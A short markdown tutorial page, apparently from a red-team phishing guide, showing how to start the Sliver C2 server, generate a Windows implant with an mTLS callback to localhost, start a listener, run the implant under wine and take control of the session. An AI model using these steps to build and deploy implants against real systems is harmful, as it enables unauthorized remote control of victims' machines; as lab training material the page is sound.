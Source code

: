 +++
title = "Sliver: Generating an implant"
weight = 50
+++

### Generate a new implant

```bash
mkdir -p ~/Desktop/op/sliver/implants
cd ~/Desktop/op/sliver
~/opt/sliver/sliver-server_linux
```

We should now be in a `sliver` shell.

![Sliver Shell](/static/how-to-phishing/sliver-shell.png)

Now we can generate a test implant:

```bash
generate --mtls 127.0.0.1 --save implants/default-sliver.exe
```

### Testing implant

In the sliver shell:

```bash
mtls
```

In a new terminal window:

```bash
wine ~/Desktop/op/sliver/implants/default-sliver.exe
```
![Sliver Implant Test](/static/how-to-phishing/sliver-implant-test.png)

Now we can use the implant by calling `use [session id]`:

![Sliver Implant Usage](/static/how-to-phishing/sliver-implant-use.png)
